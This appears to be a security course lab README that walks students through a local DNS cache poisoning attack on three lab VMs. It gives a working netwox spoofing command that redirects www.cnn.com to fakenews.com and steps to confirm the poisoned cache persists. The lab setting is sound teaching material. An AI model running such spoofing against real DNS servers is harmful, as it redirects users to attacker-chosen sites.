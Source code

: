 ## Local DNS Cache Poisoning Attack

### Requirement

In this lab, you will poison the cache of a local DNS server, and thus affect clients who rely on this DNS server. More specifically, we want clients who access www.cnn.com go to fakenews.com.

### Setup

3 Linux VMs: Victim (DNS) Client, Victim (DNS) Server, Attacker. All 3 VMs are located in the same network.

The following is the IP addresses for the VMs used in this README.

| VM  |  IP Address   |        Role         |
|-----|---------------|---------------------|
| VM1 | 172.16.77.128 | victim (dns) client |
| VM2 | 172.16.77.129 | victim (dns) server |
| VM3 | 172.16.77.130 |   attacker          |

### Steps

1. on DNS Server machine: start the DNS Server. We will use BIND software. (BIND: Berkeley Internet Name Domain) 

```console
# sudo service bind9 start (If it's already running, then # sudo service bind9 restart)
```

2. on DNS Server: remove existing cache:

```console
# sudo rndc flush
```

this screenshot shows the commands to start the server and flush the cache.

![alt text](lab-dns-start-server.png "start server and flush cache")

3. on victim client, configure DNS server information, i.e., let the client know the IP address of the DNS server.

3.1. add this line to the end of file /etc/resolvconf/resolv.conf.d/head (remember to replace DNS_SERVER_IP with your victim DNS server's IP address, plus, you need "sudo" if you edit the file using vi/vim.)

```console
nameserver DNS_SERVER_IP
```

this screenshot shows editing the file in *vi*:
![alt text](lab-dns-edit-file.png "edit the file")

this screenshot shows the file is now edited:
![alt text](lab-dns-configure-dns.png "configure dns")

3.2. run the following command so the above change will take effect:

```console
# sudo resolvconf -u
```

![alt text](lab-dns-resolvconf.png "resolvconf command")

4. on attacker VM, run

```console
# sudo netwox 105 --hostname "www.cnn.com" --hostnameip FAKENEWS.com_IP --authns "ns1.fastly.net" --authnsip ATTACKER_IP --filter "src host DNS_SERVER_IP" --ttl 19000 --spoofip raw
```

FAKENEWS.com IP address (as of today, 05/24/2022): 188.126.71.216 (you can use ping command to confirm it)

**Explanation**: '--spoofip raw' means to spoof at IPv4/IPv6 level, as opposed to spoof at the data link layer. In other words, spoof IP addresses, instead of spoof MAC addresses.

this screenshot shows the actual command:

![alt text](lab-dns-attack-command.png "attack command")

Question: why it's "src host DNS_SERVER_IP", instead of "src host DNS_CLIENT_IP"?

Question: does the ttl here have the same meaning as the ttl in IP headers?

5. on victim client, send a query.

```console
# dig www.cnn.com 
```

these two screenshots show the attack is successful: www.cnn.com is mapped to 188.126.71.216, which is the IP address of fakenews.com.
![alt text](lab-dns-attack-success-p1.png "attack success")
![alt text](lab-dns-attack-success-p2.png "attack success")

6. stop the attack - press control-c on the attacker VM's terminal. On victim client, run the dig command again and confirm that, even after the attack, www.cnn.com is still mapped to the IP address of fakenews.com, which proves that the DNS server's cache is indeed poisoned, and thus the attack has a long-lasting effect:

![alt text](lab-dns-attack-success-after-ctrl-c-p1.png "attack still success")
![alt text](lab-dns-attack-success-after-ctrl-c-p2.png "attack still success")


7. you are recommended to remove the line you added in step 3, in this file: /etc/resolvconf/resolv.conf.d/head, so that your future experiments won't be affected.

